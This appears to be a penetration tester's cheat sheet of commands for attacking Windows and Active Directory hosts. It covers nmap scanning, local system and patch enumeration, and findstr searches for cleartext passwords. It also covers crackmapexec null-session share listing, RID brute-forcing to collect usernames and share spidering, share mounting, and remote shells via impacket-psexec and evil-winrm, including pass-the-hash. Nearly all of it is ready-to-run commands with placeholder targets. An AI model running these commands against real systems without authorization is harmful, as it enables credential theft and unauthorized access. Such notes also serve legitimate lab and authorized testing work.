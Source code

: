 Port scan for Win:

```bash
nmap -sC -sV -A -Pn -p 53,88,135,139,445 $TARGET_IP -vv
```

Check OS architecture / version:
```powershell
ver
wmic os get osarchitecture
hostname
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

Get OS patches:
```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

Get OS drives:
```powershell
wmic logicaldisk get caption,description,providername
```
Get network adapters and open ports:
```powershell
ipconfig /all
netstat -ano
```

Get routes:
```powershell
route PRINT
```

Get running processes:

```powershell
tasklist /SVC
```

Get installed patches:

```powershell
wmic qfe
```

Search for cleartext passwords:
```powershell
findstr /si password *.txt
findstr /spin "password" *.*
```

Add domain NB name to /etc/hosts

```bash
crackmapexec smb $TARGET_IP -u '' -p ''
#check for open shares
crackmapexec smb $TARGET_IP -u '' -p '' --shares
```

Enumerate users by brute forcing RID
#rid #bruteforce-rid

```shell
crackmapexec smb $AD_DOMAIN -u $USER -p '' --rid-brute 10000
#extract usernames
crackmapexec smb $AD_DOMAIN -u $USER -p '' --rid-brute 10000 | grep -o '\\[^ ]*' | awk -F'\\' '{print $2}' | uniq
```

Show all files and DIRs for guest:

```shell
crackmapexec smb $TARGET_IP -u 'guest' -p '' -M spider_plus
```

```shell
crackmapexec smb $TARGET_IP -u $USER -p $PASSWORD -M spider_plus --spider users
```

Parse the JSON from the previous cmd into readable form:

```shell
cat $TARGET_IP.json | jq '. |map_values(keys)'
```

Mount windows share:
```bash
sudo mount -o username=$USER,password=$PASSWORD -t cifs \\\\$TARGET_IP\$SHARE /mnt
```

Try to connect to console:

```shell
impacket-psexec $USER:$PASSWORD@$TARGET_IP
```

```shell
evil-winrm -i $TARGET_IP -u administrator -p $PASSWORD
```

```shell
evil-winrm -i $TARGET_IP -u administrator -H $HASH
```

```sh
crackmapexec winrm $TARGET_IP -u $USER -p $PASSWORD
```


Port 3389 RDP:

```sh
xfreerdp /v:$TARGET_IP /u:$USER
```